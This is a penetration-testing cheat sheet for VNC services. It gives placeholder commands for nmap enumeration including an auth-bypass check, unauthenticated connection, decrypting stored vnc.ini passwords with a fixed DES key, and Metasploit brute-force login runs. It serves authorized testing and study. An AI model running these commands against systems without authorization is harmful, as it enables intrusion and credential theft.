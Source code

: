 # VNC

% vnc, 5800, 5801, 5900, 5901
#plateform/linux  #target/remote  #protocol/vnc #port/5800 #port/5801 #port/5900 #port/5901

## vnc - nmap enum
#cat/RECON 
```
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -p <port> <ip>
```

## vncviewer - connect to vnc no pass
#cat/ATTACK/CONNECT 
```
vncviewer <ip>::<port>
```

## vncviewer - connect to vnc with password
#cat/ATTACK/CONNECT 
```
vncviewer -password <password.txt> <ip>::<port>
```

## vnc - decrypt vnc.ini password
#cat/UTILS
echo -n <password> | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv

## vnc msf test none auth
#cat/ATTACK/CONNECT 
```
msfconsole -x "use auxiliary/scanner/vnc/vnc_none_auth; set RHOSTS <ip>; set RPORT <port>; run"
```

## vnc - msf test login bf
#cat/ATTACK/BRUTEFORCE-SPRAY 
```
msfconsole -x "use auxiliary/scanner/vnc/vnc_login; set RHOSTS <ip>; set RPORT <port>; set USERNAME <username>; run"
```

## vnc - msf test login bf (2)
#cat/ATTACK/BRUTEFORCE-SPRAY 
```
msfconsole -x "use auxiliary/scanner/vnc/vnc_login; set RHOSTS <rhost>; set RPORT <rport>; set USER_FILE <users.txt>; set PASS_FILE <passwords.txt>; run"
```